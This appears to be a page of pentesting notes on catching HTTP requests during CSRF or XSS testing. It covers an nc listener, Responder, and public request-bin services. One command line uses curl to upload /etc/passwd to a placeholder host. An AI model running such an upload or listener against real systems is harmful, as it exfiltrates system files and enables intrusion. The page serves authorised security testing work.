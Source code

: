 # Request Grabber

<div class="row row-cols-lg-2"><div>

During pentesting activies, we may want to catch HTTP requests, such as during a CSRF attack or a XSS attack.

If our machine is within the same network, we can use `nc`:

```shell!
$ nc -lnvp PORT
<send request to YOUR_PUBLIC_IP:PORT>
```

We can use [responder](/cybersecurity/red-team/tools/utilities/networking/responder.md) for Windows Authentication Requests.
</div><div>

We may use online public solutions such as API Testing Platforms:

* [requestbin](https://public.requestbin.com/r/) <small>(HTTP 🌍)</small>
* [postbin](https://www.toptal.com/developers/postbin/) <small>(HTTP 🌍)</small>
* [ngrok](https://ngrok.com/) <small>(HTTP 🌍 and TCP ⭐, account required 🪦)</small>
* [requestinspector](https://requestinspector.com/) <small>(HTTP 🌍)</small>
* [beeceptor](https://beeceptor.com/) <small>(HTTP 🌍)</small>
* [pastebin](https://pastebin.com/) <small>(HTTP + UPLOAD 🌍, use URL to raw file after upload)</small>
* [github.io](https://pages.github.com/) <small>(HTTP + UPLOAD 🌍, account required 🪦)</small>
* ...

```ps
$ curl http://XXX/xxxxxx -F "data=@/etc/passwd"
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [interactsh](https://app.interactsh.com/#/)
</div><div>
</div></div>